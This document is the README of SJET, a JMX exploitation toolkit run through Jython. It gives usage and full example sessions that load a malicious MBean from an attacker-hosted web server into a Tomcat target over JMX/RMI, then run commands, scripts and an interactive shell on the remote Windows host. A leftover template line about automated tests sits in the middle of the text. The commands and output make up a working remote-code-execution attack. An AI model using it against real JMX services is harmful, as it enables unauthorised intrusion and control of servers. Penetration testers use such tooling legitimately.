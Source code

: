 # SJET by siberas

A JMX exploitation toolkit.

## Prerequisites


* [Jython](http://www.jython.org/)

## Usage

SJET implements a CLI interface (using [argparse](https://docs.python.org/3/library/argparse.html)):

```
jython sjet.py targetHost targetPort MODE (modeOptions)
```
Where

* **targetHost** -  the target IP address
* **targerPort** - the target port where JMX is running
* **MODE** - the script mode
* **modeOptions** - the options for the mode selected

### Modes and modeOptions

* **install** - installs the payload in the current target.
	* *payload_url* - full URL to load the payload
	* *payload_port* - port to load the payload
* **command** -  runs the command *CMD* in the targetHost
	* *CMD* - the command to run
* **javascript** - runs a javascript file *FILENAME* in the targetHost
	* *FILENAME* - the javascript to be run
* **shell** - starts a simple shell in targetHost (with the limitations of java's Runtime.exec())

Explain how to run the automated tests for this system

## Example


###Installing the payload in a Windows target:

```
Patricios-MacBook-Pro:sjet preller$ Jython sjet.py 192.168.56.101 8008 install http://192.168.56.1 8888
[+] Starting webserver at port 8888
[+] Connecting to: service:jmx:rmi:///jndi/rmi://192.168.56.101:8008/jmxrmi
[+] Connected: rmi://192.168.56.1  1
[+] Loaded javax.management.loading.MLet
[+] Loading malicious MBean from http://192.168.56.1:8888
[+] Invoking: javax.management.loading.MLet.getMBeansFromURL
192.168.56.101 - - [11/Aug/2017 11:16:10] "GET / HTTP/1.1" 200 -
192.168.56.101 - - [11/Aug/2017 11:16:10] "GET /siberas_mlet.jar HTTP/1.1" 200 -
[+] Successfully loaded Siberas:name=payload,id=1
Patricios-MacBook-Pro:sjet preller$
```

###Running the command 'dir' in a Windows target:

```
Patricios-MacBook-Pro:sjet preller$ Jython sjet.py 192.168.56.101 8008 command "dir"
[+] Connecting to: service:jmx:rmi:///jndi/rmi://192.168.56.101:8008/jmxrmi
[+] Connected: rmi://192.168.56.1  2
[+] Loaded de.siberas.lab.SiberasPayload
[+] Executing command: dir
 Volume in drive C has no label.
 Volume Serial Number is E0CE-337D

 Directory of C:\Program Files\Apache Software Foundation\Tomcat 9.0

08/11/2017  01:34 AM    <DIR>          .
08/11/2017  01:34 AM    <DIR>          ..
08/11/2017  01:34 AM                 3 ASDASD.txt
08/10/2017  07:08 AM    <DIR>          bin
08/10/2017  07:08 AM    <DIR>          conf
08/10/2017  07:08 AM    <DIR>          lib
08/02/2017  01:29 PM            58,153 LICENSE
08/11/2017  01:24 AM    <DIR>          logs
08/02/2017  01:29 PM             1,859 NOTICE
08/02/2017  01:29 PM             6,881 RELEASE-NOTES
08/11/2017  02:16 AM    <DIR>          temp
08/02/2017  01:29 PM            21,630 tomcat.ico
08/02/2017  01:29 PM            73,690 Uninstall.exe
08/10/2017  07:08 AM    <DIR>          webapps
08/10/2017  07:08 AM    <DIR>          work
08/11/2017  02:30 AM                17 _____SURELY_A_SAFE_FILE_____.exe
08/11/2017  02:29 AM                17 _____AND_DONT_CALL_ME_SHIRLEY_____.exe
               8 File(s)        162,253 bytes
               9 Dir(s)  124,198,735,872 bytes free

[+] Done
Patricios-MacBook-Pro:sjet preller$
```

###Running the file poc.js in a Windows target:

```
Patricios-MacBook-Pro:sjet preller$ Jython sjet.py 192.168.56.101 8008 javascript "poc.js"
[+] Connecting to: service:jmx:rmi:///jndi/rmi://192.168.56.101:8008/jmxrmi
[+] Connected: rmi://192.168.56.1  4
[+] Loaded de.siberas.lab.SiberasPayload
[+] Executing script
None

Patricios-MacBook-Pro:sjet preller$
```
###Running ping in shell mode in a Windows target:

```
Patricios-MacBook-Pro:sjet preller$ Jython sjet.py 192.168.56.101 8008 shell
[+] Connecting to: service:jmx:rmi:///jndi/rmi://192.168.56.101:8008/jmxrmi
[+] Connected: rmi://192.168.56.1  9
[+] Use command 'exit_shell' to exit the shell
>>> ping 127.0.0.1
[+] Loaded de.siberas.lab.SiberasPayload
[+] Executing command: ping 127.0.0.1

Pinging 127.0.0.1 with 32 bytes of data:
Reply from 127.0.0.1: bytes=32 time<1ms TTL=128
Reply from 127.0.0.1: bytes=32 time<1ms TTL=128
Reply from 127.0.0.1: bytes=32 time<1ms TTL=128
Reply from 127.0.0.1: bytes=32 time<1ms TTL=128

Ping statistics for 127.0.0.1:
    Packets: Sent = 4, Received = 4, Lost = 0 (0% loss),
Approximate round trip times in milli-seconds:
    Minimum = 0ms, Maximum = 0ms, Average = 0ms


>>>
>>>
[4]+  Stopped                 Jython sjet.py 192.168.56.101 8008 shell
Patricios-MacBook-Pro:sjet preller$
```

## Contributing

Feel free to contribute.

## Authors

* **Hans-Martin Münch** - *Initial idea and work* - [h0ng10](https://github.com/h0ng10)
* **Patricio Reller** - *CLI and extra options* - [preller](https://github.com/preller)

See also the list of [contributors](https://github.com/h0ng10/sjet/graphs/contributors) who participated in this project.

## License

This project is licensed under the MIT License - see the [LICENSE.md](LICENSE.md) file for details.
